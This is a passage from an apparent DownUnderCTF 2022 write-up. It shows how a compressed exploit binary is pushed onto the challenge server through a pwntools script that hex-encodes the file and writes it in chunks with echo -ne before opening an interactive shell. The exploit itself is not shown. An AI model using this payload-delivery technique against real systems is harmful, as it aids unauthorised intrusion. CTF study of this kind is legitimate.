 So let's compress our exploit file first:

![gzip-compress-file.png](images/gzip-compress-file.png)

Wow, the size is reduced by a half again. Now, to transfer this file to server, we can use the command `echo` of linux to print byte to a file. For example:

```bash
echo -ne "\x41\x42\x43\x44" >> output 
```

We will do it with python script. Read the file and convert from byte to string of byte with prefix `\x` to make sure echo doesn't get error or make sure `\n` will not appear in payload, just `\x0a` because if our payload has `\n` it will mark as ENTER and our echo command will get wrong:

```python
#!/usr/bin/python3

from pwn import *

p = remote('2022.ductf.dev', 30020)

### Read byte of gzip file
with open('initramfs/r.gz', 'rb') as f:
	data = f.read()

### Convert from byte to string. Ex: b'H\n' -> '\x48\x0a'
b = ''
for i in data:
	b += '\\x' + hex(i)[2:].rjust(2, '0')
n = 0x200
log.info(f"Will need to send {int(len(b) / n) + 1} times")

### Send payload to server
k = 1
p.sendlineafter(b'$', b'cd /home/ctf')
for i in range(0, len(b), n):
	print(f"Sent: {k}", end='\r')
	if (i+n > len(b)):
		p.sendline(f'echo -ne "{b[i:]}" >> r.gz'.encode())
	else:
		p.sendline(f'echo -ne "{b[i:i+n]}" >> r.gz'.encode())
	p.recvuntil(b'echo')
	k+=1

context.log_level = 'debug'
p.interactive()
```

